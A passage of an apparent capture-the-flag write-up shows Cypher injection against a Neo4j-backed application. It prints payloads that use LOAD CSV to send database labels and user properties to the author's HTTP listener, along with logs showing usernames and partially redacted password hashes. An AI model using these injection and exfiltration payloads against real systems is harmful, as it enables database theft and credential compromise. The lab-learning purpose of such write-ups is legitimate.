 ##### Output

```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.210 - - [24/Apr/2023 15:16:02] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
10.10.11.210 - - [24/Apr/2023 15:16:02] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -
```

#### Getting the labels
##### Query
```sql
' OR 1=1 WITH 1 as a  CALL  db.labels() yield label LOAD CSV FROM 'http://10.10.14.64:80/?label=' + label as l RETURN 0 as _0 //
```

##### Output
```bash
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.210 - - [28/Apr/2023 13:54:55] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [28/Apr/2023 13:54:55] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [28/Apr/2023 13:54:55] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [28/Apr/2023 13:54:56] "GET /?label=employee HTTP/1.1" 200 -
10.10.11.210 - - [28/Apr/2023 13:54:56] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [28/Apr/2023 13:54:56] "GET /?label=employee HTTP/1.1" 200 -

```

#### Getting user data
By changing the "Flag" value, in the original hacktricks payload, to the "user" label we found earlier, we can get the values for the user keys. 

##### Query
```sql
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.41:80/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

This query will select all properties of all nodes labeled "user" in the graph.
- `MATCH (f:user)` is matching all nodes labeled "user" and assigning them to the variable "f".
- `UNWIND keys(f) as p` is taking each node "f" and "unwinding" (flattening) its keys (properties), assigning each key to the variable "p".
- `LOAD CSV FROM 'http://10.10.14.41:80/?' + p +'='+toString(f[p]) as l RETURN 0 as _0` is exfiltrating the data to our server by making a request with the key name (`p`) and it's value (`f[p]`).

##### Output
```bash
10.10.11.210 - - [24/Apr/2023 15:23:46] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [24/Apr/2023 15:23:46] "GET /?password=a85e870c05825**REDACTED**4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [24/Apr/2023 15:23:46] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [24/Apr/2023 15:23:46] "GET /?password=8c6976e5b5410**REDACTED**a81f6f2ab448a918 HTTP/1.1" 200 -
```
